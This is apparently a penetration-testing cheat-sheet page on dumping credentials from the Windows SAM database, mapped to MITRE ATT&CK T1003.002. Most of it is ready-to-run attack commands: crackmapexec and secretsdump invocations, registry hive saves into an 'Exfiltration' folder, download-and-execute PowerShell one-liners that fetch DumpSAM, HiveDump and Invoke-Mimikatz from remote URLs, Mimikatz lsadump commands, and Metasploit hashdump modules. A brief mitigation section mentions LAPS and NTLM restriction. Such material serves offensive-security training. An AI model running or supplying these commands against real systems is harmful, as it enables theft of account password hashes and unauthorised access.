 

# Description:

https://attack.mitre.org/techniques/T1003/002/

# Security Account Manager (SAM)

**ATT\&CK ID:** [T1003.002](https://attack.mitre.org/techniques/T1003/002/)

**Permissions Required:** <mark style="color:red;">**SYSTEM**</mark>

**Description**

Adversaries may attempt to extract credential material from the Security Account Manager (SAM) database either through in-memory techniques or through the Windows Registry where the SAM database is stored. The SAM is a database file that contains local accounts for the host, typically those found with the `net user` command. Enumerating the SAM database requires SYSTEM level access.

## Linux Techniques

### Crackmapexec

```bash
crackmapexec smb <IP> -u <User> -p <Password> --sam

# Use the local-auth parameter when authenticating as a local account
crackmapexec smb <IP> -u <User> -p <Password> --sam --local-auth
```

![](../../../Writeups/HTB/Assets/Pasted%20image%2020250619220402.png)

### Secretsdump

```bash
# Dump from SAM and SYSTEM. Ensure files are in current working directory
secretsdump.py -sam SAM -system SYSTEM LOCAL 
```

![](../../../Writeups/HTB/Assets/Pasted%20image%2020250619220419.png)

## Windows Techniques

```powershell
# Manually save SAM and SYSTEM files (if needed for any tools below)
reg save HKLM\SAM c:\Exfiltration\SAM
reg save HKLM\SYSTEM c:\Exfiltration\SYSTEM
```

### DumpSam

This tool will filter out some default accounts such as Guest and the wdagutilityaccount account from the results.

Github: [https://github.com/The-Viper-One/PME-Scripts/blob/main/DumpSAM.ps1](https://github.com/The-Viper-One/PME-Scripts/blob/main/DumpSAM.ps1)

```powershell
# Download and execute
IEX (IWR -UseBasicParsing https://raw.githubusercontent.com/The-Viper-One/PME-Scripts/main/DumpSAM.ps1)
```

### HiveDump

Github: [https://github.com/tmenochet/PowerDump/blob/master/HiveDump.ps1](https://github.com/tmenochet/PowerDump/blob/master/HiveDump.ps1)

```powershell
# Load into memory
iex (iwr -UseBasicParsing https://raw.githubusercontent.com/tmenochet/PowerDump/master/HiveDump.ps1)

# Dump
Invoke-HiveDump
```

### Mimikatz

Github: [https://github.com/BC-SECURITY/Empire/blob/main/empire/test/data/module\_source/credentials/Invoke-Mimikatz.ps1](https://github.com/BC-SECURITY/Empire/blob/main/empire/test/data/module\_source/credentials/Invoke-Mimikatz.ps1)

<pre class="language-powershell"><code class="lang-powershell"><strong># Load into memory
</strong><strong>IEX (IWR -UseBasicParsing "https://raw.githubusercontent.com/BC-SECURITY/Empire/master/empire/server/data/module_source/credentials/Invoke-Mimikatz.ps1")
</strong><strong>
</strong><strong># Dump from SAM and SYSTEM. Enusre files are in current working directory
</strong>Invoke-Mimikatz -command "lsadump::sam /system:SYSTEM /sam:SAM"

# Dump against the Live Hive Files

Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"'
</code></pre>

## Metasploit

```bash
# Modules
use post/windows/gather/hashdump
use post/windows/gather/credentials/credential_collector

# Meterpreter Shell
hashdump

# Extension:Kiwi
lsa_dump_s
```

![](../../../Writeups/HTB/Assets/Pasted%20image%2020250619220438.png)

## Mitigation

### LAPS

The "Local Administrator Password Solution" (LAPS) provides management of local account passwords of domain joined computers. Passwords are stored in Active Directory (AD) and protected by ACL, so only eligible users can read it or request its reset.

{% embed url="https://www.microsoft.com/en-us/download/details.aspx?id=46899" %}

### Restrict NTLM Traffic

{% embed url="https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2008-R2-and-2008/jj865668(v=ws.10)?redirectedfrom=MSDN" %}
